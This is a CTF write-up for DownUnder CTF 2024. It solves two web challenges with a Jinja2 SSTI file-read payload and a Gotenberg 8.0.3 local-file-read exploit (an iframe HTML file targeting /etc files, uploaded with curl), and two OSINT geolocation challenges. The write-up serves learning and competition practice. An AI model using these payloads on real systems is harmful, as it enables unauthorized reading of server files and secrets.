


I participated in the DownUnder CTF 2024 as part of team CyberHero. I focused on the OSINT and Web Exploitation challenges. Although I didn’t have much time to dive into other challenges, I had a lot of fun solving some of them. Here are the writeups for the challenges I tackled:

## Challenges

- [Web / parrot the emu (easy)](#web--parrot-the-emu-easy)
- [Web / hah got em (easy)](#web--hah-got-em-easy)
- [OSINT / cityviews (easy)](#osint--cityviews-easy)
- [OSINT / They're Making Decoys (medium)](#osint--theyre-making-decoys-medium)


# Web / parrot the emu (easy)

## Description

> It is so nice to hear Parrot the Emu talk back

## 🕵️‍♂️ Solution

When we open the web page, we can see there is only one input field and submit button.


This challenge was really easy. Upon inspecting `app.py` from the source code which was provided, we can see that an SSTI vulnerability is here waiting to be exploited.


On line 12, user input is being directly passed into `render_template_string` which can lead to unsafe rendering.

We know that we need to read the content of the flag located at `./`, we can look into this resource: [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) for useful SSTI payloads.

The final payload which I used is:
```python
{{ get_flashed_messages.__globals__.__builtins__.open("./flag").read() }}
```


`DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

# Web / hah got em (easy)

## Description

> Deez nutz
> Hah got em
> ...
> Oh by the way I love using my new microservice parsing these arrest reports to PDF

_The evil bot (2024)_

## 🕵️‍♂️ Solution

We received the source code. Upon inspecting the `Dockerfile`, we can see that the server is running the `gotenberg` app version `8.0.3`.

```dockerfile
FROM gotenberg/gotenberg:8.0.3
COPY flag.txt /etc/flag.txt
```

We can look into Docker Hub and find the Gotenberg page [here](https://hub.docker.com/r/gotenberg/gotenberg/). Now, we are trying to find a vulnerability. My first thought is to check whether this project has a GitHub repository. And yes, it does: [Gotenberg GitHub](https://github.com/gotenberg/gotenberg). Now, I can go into releases and try to find the release after the one we are dealing with. The release in question is 8.1.0.


As we can see, there was a critical security flaw which previously enabled unauthorized read access to the system files of a Gotenberg container. So, we can use the compare feature on GitHub to see which patches were applied: [Compare v8.0.3 to v8.1.0](https://github.com/gotenberg/gotenberg/compare/v8.0.3...v8.1.0)

We can see two critical file changes, one is on `Makefile`:

```
- CHROMIUM_DENY_LIST="^file:///[^tmp].*"
+ CHROMIUM_DENY_LIST=^file:(?!//\/tmp/).*
```

So we can conclude that local file inclusion occurred due to a bad regex on the deny list. The other one is inside `test/testdata/chromium/html/index.html`, where the following code was added:

```html
<div class="page-break-after">
    <h2>/etc/passwd</h2>
    <iframe src="/etc/passwd"></iframe>

    <h2>\\localhost/etc/passwd</h2>
    <iframe src="\\localhost/etc/passwd"></iframe>
</div>
```

Now, we can perform the following steps. We can create a local file `index.html` which will look like this:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dummy HTML</title>
</head>
<body>
    <div class="page-break-after">
    <h2>/etc/passwd</h2>
    <iframe src="/etc/flag.txt"></iframe>

    <h2>\\localhost/etc/passwd</h2>
    <iframe src="\\localhost/etc/flag.txt"></iframe>
</div>
</body>
</html>
```

Note that I have changed the paths to `/etc/flag.txt`, we know that's the location due to the `Dockerfile`. Now, we need to run the following command in our terminal to upload our malicious payload to the Gotenberg service and try to trigger the vulnerability.

```bash
curl --request POST https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/html --form files=@index.html -o my.pdf
```

When our request gets completed, we will get `my.pdf` in our current working directory. This is the content of `my.pdf`:


`DUCTF{dEeZ_r3GeX_cHeCK5_h4h_g0t_eM}`

# OSINT / cityviews (easy)

## Description

> *After having to go on the run, I've had to bunker down. Which building did I capture this picture from?*

> *NOTE: Flag is case-insensitive and requires placing inside `DUCTF{}`! e.g `DUCTF{building_name}`*


## 🕵️‍♂️ Solution

If we look closely at the billboard on the left, we can see that the text "Melbourne" is written on it. Above it, "3AW" is written.



One simple Google search "3AW Melbourne" gives us the following website: This ad is related to this website: [3AW](https://www.3aw.com.au/the-surprise-melbourne-building-named-one-of-the-most-spectacular-globally/)

This is an article titled "The surprise **Melbourne building** named one of the most spectacular globally". Upon reading it we can see this part of the text: "Click PLAY to hear Shane’s full list + his thoughts on **Melbourne’s Abode 318 building**". We can clearly see the text is about a building named **Abode 318** located in **Melbourne**. That building is not related to the challenge, so we can proceed to try to find the building in the bottom image.



I've sent the image to my colleague and he used his phone's AI tool to scan this image. Because we know it's Melbourne, we narrowed the search down and after some scrolling, we found the exact match! It's **The Great Southern Hotel Melbourne**.


We can find the hotel on the maps. We can clearly see that the image is taken from the building next to the hotel.


`DUCTF{Hotel_Indigo_Melbourne_on_Flinders}`

# OSINT / They're Making Decoys (medium)

## Description

> *The Sergeant from Clarence asked one of the Corporals to patrol for Emus to keep our fresh troops on their toes and maybe scare some discipline into them. They headed out to an area with lots of sightings reported though they never made it back. Some of the last images uploaded showed what looked to be the enemy, though it turned out to be decoys. These broom heads are getting clever. I'm guessing we're not getting the camera equipment back...*


**Find the location (latitude, longitude) of this area rounded to 4 decimal places and wrap it in `DUCTF{}`, e.g.**

## 🕵️‍♂️ Solution

Most of the information we need can be found in the challenge description. Every sentence has a hint, the hints start obvious and become more subtle as we go.

Firstly, "asked one of the Corporals to patrol for **Emus**" plainly tells us the sarge was looking for Emus. [Emu Wiki](https://en.wikipedia.org/wiki/Emu)

Then, we can see from "The Sergeant from **Clarence** asked" that a place named **Clarence** is also mentioned. By running a quick search ("emu clarence locations") we can find the [following map](https://www.clarenceconversations.com.au/coastalemus/maps/coastal-emu-sightings-map). This is a map with emu sightings around the coast of Australia, near Clarence.

One of the places with a high concentration of Emu sightings is a road named **Brooms Head Rd**. If we carefully read the description, there is a small pointer to this location: "These **broom heads** are getting clever."


Now, we just need to open street view and drive a little until we find the following location:  
https://maps.app.goo.gl/zsiBHh6F6zhrkN758

`DUCTF{-29.5505,153.2776}`